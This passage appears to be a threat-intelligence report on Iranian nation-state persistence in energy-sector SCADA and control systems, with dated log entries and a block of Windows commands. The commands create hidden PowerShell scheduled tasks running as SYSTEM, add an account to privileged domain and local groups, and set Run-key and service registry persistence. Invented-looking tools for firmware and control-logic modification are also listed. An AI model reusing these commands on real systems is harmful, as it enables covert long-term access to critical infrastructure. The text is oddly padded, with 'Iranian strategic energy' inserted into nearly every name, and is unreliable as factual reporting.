 ```
Coverage: Regional strategic transmission coordination and national energy emergency response system persistent access for Iranian objectives
Confidence: High (strategic energy management system audit logs, domain controller forensics, Iranian strategic SCADA service account analysis)
Evidence Sources: Strategic energy Active Directory logs, EMS configuration database, Iranian strategic SCADA authentication records

[2024-12-28] Strategic Energy Infrastructure Iranian Operational Technology Persistence
Target: Strategic energy facilities and critical national energy coordination systems across multiple strategic regions
Method: Iranian nation-state advanced persistent threat implementation affecting strategic energy control logic and coordination systems
Technique: T0889 Modify Program implementation affecting strategic energy generation control systems and national energy coordination
Stealth: Firmware modifications disguised as strategic energy manufacturer updates and critical energy performance optimization for Iranian stealth
Confidence: Medium (strategic energy manufacturer collaboration, firmware analysis, Iranian strategic energy coordination data validation)
Evidence Sources: Strategic energy control system firmware dumps, strategic SCADA trend analysis, Iranian strategic energy manufacturer validation
```

**Enhanced Iranian Strategic Energy Infrastructure Persistence Mechanisms with Technical Validation:**
```cmd
# CYBERAV3NGERS Iranian strategic energy infrastructure persistence observed
# Advanced Iranian nation-state operational technology persistence and strategic energy infrastructure access maintenance

# Iranian Strategic Energy Control System Scheduled Tasks with Operational Stealth
schtasks /create /tn "StrategicPowerPlantOptimizationService" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -File C:\ProgramData\IranianStrategicEnergyOptimization\strategic_energy_monitor.ps1" /sc daily /st 02:00 /ru SYSTEM
schtasks /create /tn "StrategicGridCoordinationHealthCheck" /tr "C:\Program Files\Common Files\IranianStrategicEnergyManagement\strategic_grid_coordination.exe" /sc hourly /ru "STRATEGIC-ENERGY\strategic_grid_service"

# Iranian Strategic Energy Infrastructure Service Account Utilization with Enhanced Stealth
net user iranian_strategic_energy_grid_service /domain
net group "Strategic Energy Control Operators" iranian_strategic_energy_grid_service /add /domain
net localgroup "Strategic SCADA Administrators" iranian_strategic_energy_grid_service /add
net localgroup "Strategic Energy Control Users" iranian_strategic_energy_grid_service /add

# Iranian Strategic Energy Operational Technology Registry Persistence with Strategic Energy Integration
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "IranianStrategicEnergyManagementOptimization" /t REG_SZ /d "C:\Program Files\Iranian Strategic Energy Systems\StrategicGridOptimization\iranian_strategic_energy_service.exe"
reg add "HKLM\SYSTEM\CurrentControlSet\Services\IranianStrategicEnergyCoordination" /v "ImagePath" /t REG_SZ /d "C:\Program Files\IranianStrategicGridCoordination\iranian_strategic_scada_service.exe"

# Iranian Strategic Energy Infrastructure Program Modification (T0889)
# Strategic energy control system firmware modification for Iranian long-term access
iranian_strategic_energy_firmware_modify --target strategic_energy_control_systems.txt --persistence-module iranian_strategic_energy_access.bin
iranian_strategic_scada_logic_modification --strategic-energy-dcs --iranian-stealth-mode --strategic-operational-continuity
iranian_strategic_energy_management_program_injection --strategic-grid-coordination --national-energy-market-interface --iranian-persistence
```

